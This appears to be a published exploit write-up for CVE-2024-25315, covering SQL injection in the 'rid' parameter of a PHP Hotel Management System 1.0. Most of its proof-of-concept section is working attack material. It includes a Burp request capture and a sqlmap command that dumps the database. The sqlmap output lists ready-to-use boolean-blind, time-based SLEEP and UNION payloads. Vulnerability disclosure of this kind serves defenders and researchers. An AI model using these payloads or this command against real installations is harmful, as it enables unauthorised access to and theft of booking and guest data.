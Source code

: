 # CVE-2024-25315 - Hotel Managment System - SQL Injection-1
+ *Exploit Title:* Hotel Managment System - SQL Injection-1
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* CVE-2024-25315


## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'rid' parameter in Hotel/admin/roombook.php?rid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click Room Booking Section and click 'action' button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/roombook.php?rid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'rid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p rid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: rid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: rid=2' AND 7394=7394-- Yhwg

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: rid=2' AND (SELECT 3298 FROM (SELECT(SLEEP(5)))AFBF)-- ADNe

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: rid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71716a6271,0x674c4e4f475061485664626e5363417a72717a626d5841694a4a5245594d59666c674e627342624a,0x7171787071),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:52:45] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:52:45] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 025337](https://github.com/tubakvgc/CVEs/assets/74067343/f02d04b2-f556-451f-8533-3862bfb1bfcf)



  
